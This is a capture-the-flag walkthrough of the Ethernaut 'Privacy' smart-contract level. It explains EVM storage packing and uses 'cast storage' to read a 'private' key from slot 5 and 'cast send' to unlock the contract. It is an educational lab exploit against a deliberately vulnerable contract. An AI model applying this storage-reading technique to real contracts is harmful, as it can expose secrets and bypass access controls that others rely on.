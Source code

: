 ## Privacy Level Outline

**Difficulty : 8/10**

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B)

## Solution

To solve this level, we need an understanding of how contract storage slots work and how they are assigned.

- The wordsize of the EVM is equal to 256 bits (32 bytes)
    - This means that each storage slot has a capacity of 32 bytes
- Statically sized variables are laid out contigously in storage starting at slot 0
    - Statically sized variables reffer to variables with a fixed size 
- If multiple variables of size less than 32 bytes are declared one after another, they are packed into a single storage slot based on the following rules :
    - The first item in a storage slot is stored lower-order aligned (little endian ordering) 
    - If an element type does not fit in the remaining part of a storage slot, it is moved to the next storage slot
    - Structs and array data always start a new slot and occupy whole slots (items inside a struct or array are packed tightly according to the above rules)
- The elements of structs and arrays are stored after each other, just as though they were given explicitly.

##### Extra Info Not Related To Level
- Due to their unpredictable size, mapping and dynamically-sized array types use a Keccak-256 hash computation to find the starting position of the value or the array data. These starting positions are always full stack slots.
- Constant variables are stored in code not contract storage

Read more about layout of state variables in Storage from the docs [here](https://docs.soliditylang.org/en/v0.4.24/miscellaneous.html)

### Walkthrough

*Let's inspect each memory slot individually and make sense of what is going on

##### 1. Inspecting **storage slot 0**
```console
cast storage $LEVEL_ADDRESS 0
```
output 
```console
0x0000000000000000000000000000000000000000000000000000000000000001
```
we know that **storage slot 0** represents the variable `locked` as it is the first declared variable in our contrat. a value of 1 equals true which matches the value assigned to locked.

```solidity
bool public locked = true;
```
boolean types require 1 byte of storage, but because the next variable in our contract : `ID` is of type `uint256`, it takes up 32 bytes to store (a full storage slot) meaning it cannot be packed with `locked` so it stored in the next storage slot. 

##### 2. Inspecting storage slot 1
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x000000000000000000000000000000000000000000000000000000006273be09
```

we know that storage slot 1 represents the variable `ID`. 

```solidity
uint256 public ID = block.timestamp;
```

this means that the data we see is the hex representation of the block's unix timestamp

##### 3. Inspecting storage slot 2
```console
cast storage $LEVEL_ADDRESS 2
```
output 
```console
0x00000000000000000000000000000000000000000000000000000000be09ff0a
```
we know that storage slot 2 represents the variables `flattening`, `denomination`, and `awkwardness` as they can be packed into a single storage slot

```solidity
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
```

remember that the evm uses little endian order when handling byte ordering so we read the memory slot from right to left

- the byte `0a` is the **uint8 variable** `flattening`. We can confirm this as the hex value `0a` is `10` in decimal
- the byte `ff` is the **uint8 variable** `denomination`. We can confirm this as the hex value `ff` is `255` in decimal
- the 2 bytes `be09` is the **uint16 variable** `akwardness`. The hex value represents the 16bit mask of the `block.timestamp`

##### 4. Inspecting storage slot 3
```console
cast storage $LEVEL_ADDRESS 3
```
output 
```console
0x44a557ce091a1a07e9a3901396684f550c3cacb7705a0fd31c8828e285faea82
```
we know that storage slot 3 represents `data[0]`, the first element of the array data

```solidity
bytes32[3] private data;
```

`data` is an array of bytes32 which means that each element takes up 32 bytes (a whole storage slot)

##### 5. Inspecting storage slot 4
```console
cast storage $LEVEL_ADDRESS 4
```
output 
```console
0x640a1bfd48f6be7abf68d08b273284d0e55ba9cfc823d8db74b24e6f486c5204
```
we know that storage slot 4 represents `data[1]`, the second element of the array data

```solidity
bytes32[3] private data;
```

##### 6. Inspecting storage slot 5
```console
cast storage $LEVEL_ADDRESS 5
```
output 
```console
0x08f99efe07ce4fbea4eee5523a0e5d66aeb986ab62a85e5e53c1400155e1ae62
```
we know that storage slot 5 represents `data[2]`, the third element of the array data

```solidity
bytes32[3] private data;
```
we **need** the third element of `data` to pass the level, this is the value that we are interested in

##### 7. Sending transaction to complete the level

Because the "unlock(bytes16 _key)" function expects a `bytes16` variable and not a `bytes32`, we need to only pass the first 16 bytes of `data[2]` to the unlock function
```console
cast send $LEVEL_ADDRESS "unlock(bytes16)" 0x08f99efe07ce4fbea4eee5523a0e5d66 --private-key $PRIVATE_KEY
```

## Further Reading
[how to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925) by Darius - A practical guide
[understanding Ethereum smart contract storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)
